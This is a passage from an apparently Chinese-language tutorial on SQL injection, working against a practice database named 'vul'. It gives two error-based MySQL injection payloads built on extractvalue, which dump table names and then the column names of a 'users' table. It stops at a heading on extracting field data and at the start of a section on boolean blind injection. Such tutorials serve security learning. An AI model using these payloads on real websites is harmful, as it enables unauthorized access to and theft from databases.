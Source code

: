 

## 2.5 获取表名

```sql
1 and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'vul'),0x7e))) #
```

![image-20220603144622859](sql注入剖析.assets/image-20220603144622859.png)

## 2.6 获取字段名

```sql
1 and (extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'vul' and table_name = 'users'),0x7e))) #
```

![image-20220603144820391](sql注入剖析.assets/image-20220603144820391.png)

## 2.7 获取字段信息



# 3.布尔盲注

若页面无法返回sql查询内容，但是正确和错误语句返回结果不一样的时候可以用布尔盲注

